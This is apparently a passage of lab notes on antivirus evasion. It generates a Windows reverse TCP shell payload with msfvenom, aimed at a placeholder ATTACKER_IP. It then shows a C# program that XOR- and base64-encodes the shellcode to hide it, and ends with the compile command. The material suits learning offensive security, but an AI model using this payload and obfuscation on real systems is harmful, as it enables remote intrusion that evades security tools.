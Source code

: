 #### Creating a Custom Payload

Using msfvenom create a payload in csharp
LHOST - the attacker's IP address
LPORT - the attacker's port number
p - the payload type, in this case a stagless payload
f - the file type, in this case csharp
```bash
 msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

A C# program to encode the shell code above using the key stated in the program. 
Then uses xor to further encode the shellcode. 
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}

```

Convert the encoding file into a executable
```powershell
C:\> csc.exe Encrypter.cs
```
